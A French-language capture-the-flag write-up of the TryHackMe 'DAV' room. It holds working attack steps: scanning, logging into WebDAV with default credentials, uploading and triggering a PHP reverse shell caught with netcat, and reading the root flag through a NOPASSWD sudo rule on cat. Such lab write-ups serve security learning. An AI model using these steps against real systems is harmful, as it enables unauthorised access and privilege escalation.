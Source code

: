 ```yaml
---
title: DAV (Guatemala CTF)
tags: [TryHackMe, Facile, Webdav]
style: border
color: thm
comments: false
description: Voilà ce que peut arriver si on conserve les identifiants par défaut
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtdav>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Analyse du site](#2-analyse-du-site)
* [3. Exploitation de Webdav](#3-exploitation-de-webdav)
* [4. Exploration du serveur](#4-exploration-du-serveur)
* [5. Elevation de privilèges](#5-elevation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.157.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 15:26 CEST
Nmap scan report for 10.10.157.86
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Le scan Nmap indique uniquement un serveur Apache présent sur le port 80.

## 2. Analyse du site

{% include elements/figure.html image="../images/THM/20240901/VirtualBox_Kali Hack_01_09_2024_15_29_16.png" caption="Première connexion" %}

A première vue, il ne s'agit que de la page par défaut que nous pouvons obtenir dès l'installation d'Apache.

Nous lançons un scanner `gobuster` et nous observons une page `webdav` qui nécessite une authentification (Status: 401).

```bash
gobuster dir -u http://10.10.157.86 -w /usr/share/wordlists/dirb/common.txt -x php,html -b "403,404"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

A la recherche d'identifiants par défaut sur Google, nous arrivons sur ce [blog](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) indiquant `wampp:xampp`. Le test est concluant, nous avons accès à l'outil avec ces identifiants.

{% include elements/figure.html image="../images/THM/20240901/Capture_ecran_2024-09-01_webdav.png" caption="Accès à Webdav" %}

## 3. Exploitation de Webdav

En parcourant le site [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver), nous avons connaissance de l'outil `cadaver` permettant de téléverser des fichiers sur Webdav. Nous tenterons d'ajouter le reverse-shell PHP mis à disposition sur le [Github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Nous avons pu téléverser notre reverse-shell.

```bash
cadaver http://10.10.157.86/webdav
Authentication required for webdav on server `10.10.157.86':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> put php-reverse-shell.php 
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
        php-reverse-shell.php               5492  Sep  1 16:05
```

Nous préparons un terminal en écoute sur le port indiqué dans le fichier PHP, puis nous cliquons sur le lien qui est apparu dans le répertoire Webdav.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.157.86] 45450
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:09:19 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La manipulation a fonctionné. Nous avons un accès à la machine.

## 4. Exploration du serveur

Nous commençons par améliorer le reverse shell obtenu afin de simplifier la navigation.

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

Nous constatons que le user `www-data` a accès aux répertoires des utilisateurs "merlin" et "wampp"

```bash
ls -hAl /home
total 8.0K
drwxr-xr-x 4 merlin merlin 4.0K Aug 25  2019 merlin
drwxr-xr-x 2 wampp  wampp  4.0K Aug 25  2019 wampp
```

Le répertoire de merlin contient le flag utilisateur, et celui-ci est lisible par tout le monde.

```bash
cd /home/merlin

ls -hAl
total 36K
-rw------- 1 merlin merlin 2.4K Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3.7K Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4.0K Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4.0K Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

cat user.txt
449b40[...expurgé...]d66d2a
```

## 5. Elevation de privilèges

Nous recherchons à présent le moyen d'obtenir les droits root sur la machine.

En vérifiant les droits `sudo` de l'utilisateur www-data, nous constatons qu'il est habilité à utiliser la commande `/bin/cat` sans mot de passe.

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Nous avons donc la possibilité de lire le contenu du flag root.

```bash
sudo /bin/cat /root/root.txt
101101[...expurgé...]f7afa5
```
